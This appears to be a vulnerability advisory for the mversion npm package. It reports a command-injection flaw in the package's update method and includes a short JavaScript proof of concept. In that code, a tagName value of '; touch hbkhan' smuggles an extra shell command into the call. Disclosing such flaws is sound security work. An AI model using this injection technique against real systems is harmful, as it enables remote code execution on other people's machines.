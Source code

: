 # Overview

mversion is a cross packaging manager module version handler/bumper.

This issue may lead to remote code execution if a client of the library calls the vulnerable method with untrusted input.

# PoC

```javascript
// poc.js
// node poc.js

var mversion = require('mversion');

mversion.update({
       version: "major",
       commitMessage: "testing",
       tagName: "; touch hbkhan",
 })
```